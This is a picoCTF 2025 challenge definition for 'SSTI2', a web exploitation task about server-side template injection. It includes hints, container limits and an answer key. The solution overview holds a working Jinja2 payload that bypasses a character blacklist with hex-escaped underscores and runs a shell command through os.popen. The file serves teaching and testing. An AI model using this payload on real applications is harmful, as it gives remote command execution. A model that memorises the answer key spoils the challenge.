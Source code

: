 # SSTI2

- Namespace: picoctf
- ID: ssti2
- Type: custom
- Category: Web Exploitation
- Points: 200
- Templatable: Yes
- MaxUsers: 1

## Description

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

## Details

I heard templating is a cool and modular way to build web apps! Check out my website {{link_as('/','here')}}!

## Hints

- Server Side Template Injection
- Why is blacklisting characters a bad idea to sanitize input?

## Solution Overview

- Perform a Server Side Template Injection from one of the payloads found in Hacktricks/Payload of All Things
- This relies on using attr() for member access and hex characters to get around the character blacklist filter
- You can run an `ls` command through the payload first to discover the existence of the flag file
- An example payload to get a flag for this would be: `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}`
(source: [Payload of All things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---filter-bypass))

## Challenge Options

```yaml
cpus: 0.5
memory: 128m
ulimits:
  - nofile=128:128
diskquota: 64m
```

## Learning Objective

Understanding of Server Side Template Injections

## Tags

- web

## Attributes

- author: Venax
- organization: picoCTF
- event: picoCTF 2025
